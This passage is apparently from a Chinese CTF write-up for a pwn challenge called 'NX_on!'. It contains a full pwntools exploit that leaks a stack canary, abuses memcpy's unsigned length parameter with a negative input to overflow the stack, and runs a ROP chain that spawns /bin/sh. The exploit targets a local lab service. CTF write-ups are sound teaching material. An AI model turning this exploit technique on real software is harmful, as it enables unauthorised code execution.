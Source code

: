 ```python

io.interactive()
```

即使没有注意到 `rdi`，还有一种更复杂的栈迁移解法，见题目“栈的奇妙之旅”。

## NX_on!

exp :

```python
from pwn import *
context.terminal = ['wt.exe', 'wsl']
context.log_level = 'debug'
context.arch = 'amd64'
p = remote('127.0.0.1',38265)
#p = process('./pwn')

rax_ret = 0x00000000004508b7
rdi_ret = 0x000000000040239f
rsi_ret = 0x000000000040a40e  
rdx_ret = 0x000000000049d12b
syscall = 0x0000000000402154
binsh = 0x00000000004e3950

junk = b'A' * 0x18
payload1 = junk + b'B'
p.recvuntil('id?')
p.send(payload1)
p.recvuntil(junk)
leak_canary = u64(b'\x00' + p.recv(8)[1:])
log.success(hex(leak_canary))

payload2 = b'C' * 0x18 + p64(leak_canary) + b'junkjunk' + p64(rax_ret) + p64(59)
payload2 += p64(rdi_ret) + p64(binsh)
payload2 += p64(rsi_ret) + p64(0)
payload2 += p64(rdx_ret) + p64(0) + p64(0)
payload2 += p64(syscall)
p.recvuntil('name?\n')
p.sendline(payload2)
p.recvuntil('quit\n')
p.sendline('-11111')
p.interactive()
```

​	第一次输入将`canary`低位的`'\x00'`覆盖为其他值，可直接泄露`canary`其余高位。将`canary`补齐后即可利用```void *memcpy(void *dest, const void *src, size_t n)```中长度参数`n`对传入的实参直接解析为无符号的数值的性质，绕过字节数检查实现栈溢出。

​	其中，对```void *memcpy(void *dest, const void *src, size_t n)```传入负值属于本程序中该函数的非预期行为，因此很多负值输入进去后会直接导致程序崩溃，这里举两个例子：

### `-1`为什么不行
